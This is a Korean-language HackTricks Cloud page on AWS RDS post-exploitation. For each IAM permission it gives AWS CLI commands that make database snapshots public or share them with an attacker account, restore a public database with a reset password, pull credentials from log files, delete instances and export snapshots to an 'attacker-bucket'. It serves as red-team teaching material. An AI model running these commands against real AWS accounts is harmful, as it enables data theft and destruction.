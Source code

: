 # AWS - RDS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS

자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

공격자가 충분한 권한을 가지고 있다면, DB의 스냅샷을 생성한 후, 그 스냅샷에서 **DB를 공개적으로 접근 가능**하게 만들 수 있습니다.
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

이 권한을 가진 공격자는 **DB의 스냅샷을 생성**하고 이를 **공개적으로** **이용 가능**하게 만들 수 있습니다. 그런 다음, 그는 자신의 계정에서 해당 스냅샷으로 DB를 생성할 수 있습니다.

공격자가 **`rds:CreateDBSnapshot`** 권한이 없더라도, 여전히 **다른** 생성된 스냅샷을 **공개**로 만들 수 있습니다.

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` 권한을 가진 공격자는 **RDS 인스턴스의 로그 파일의 일부를 다운로드**할 수 있습니다. 민감한 데이터나 접근 자격 증명이 우연히 기록된 경우, 공격자는 이 정보를 사용하여 권한을 상승시키거나 무단 작업을 수행할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**잠재적 영향**: 유출된 자격 증명을 사용하여 민감한 정보에 접근하거나 무단 작업을 수행할 수 있습니다.

### `rds:DeleteDBInstance`

이 권한을 가진 공격자는 **기존 RDS 인스턴스를 DoS할 수 있습니다**.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**잠재적 영향**: 기존 RDS 인스턴스 삭제 및 데이터 손실 가능성.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: 테스트
{% endhint %}

이 권한을 가진 공격자는 **RDS 인스턴스 스냅샷을 S3 버킷으로 내보낼 수 있습니다**. 공격자가 대상 S3 버킷을 제어할 경우, 내보낸 스냅샷 내의 민감한 데이터에 접근할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**잠재적 영향**: 내보낸 스냅샷의 민감한 데이터에 대한 접근.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
